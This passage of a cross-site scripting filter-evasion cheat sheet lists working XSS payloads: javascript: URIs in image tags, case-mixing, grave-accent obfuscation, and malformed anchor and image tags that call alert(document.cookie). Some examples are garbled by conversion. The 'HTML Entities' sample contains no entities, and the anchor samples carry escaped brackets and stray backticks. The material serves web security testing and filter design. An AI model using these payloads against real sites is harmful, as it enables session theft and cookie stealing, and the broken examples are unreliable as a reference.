 ```html
<img src="javascript:alert('XSS');" />
```

## No Quotes and no Semicolon

```html
<IMG SRC=javascript:alert('XSS')>
```

## Case Insensitive XSS Attack Vector

```html
<IMG SRC=JaVaScRiPt:alert('XSS')>
```

## HTML Entities

The semicolons are required for this to work:

```html
<img src='javascript:alert("XSS")' />
```

## Grave Accent Obfuscation

If you need to use both double and single quotes you can use a grave accent to encapsulate the JavaScript string - this is also useful because lots of cross site scripting filters don't know about grave accents:

```html
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```

## Malformed A Tags

Skip the HREF attribute and get to the meat of the XXS... Submitted by David Cross \~ Verified on Chrome

```html
`\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>
```

or Chrome loves to replace missing quotes for you... if you ever get stuck just leave them off and Chrome will put them in the right place and fix your missing quotes on a URL or script.

```html
`\<a onmouseover=alert(document.cookie)\>xxs link\</a\>
```

## Malformed IMG Tags

Originally found by Begeek (but cleaned up and shortened to work in all browsers), this XSS vector uses the relaxed rendering engine to create our XSS vector within an IMG tag that should be encapsulated within quotes. I assume this was originally meant to correct sloppy coding. This would make it significantly more difficult to correctly parse apart an HTML tags:

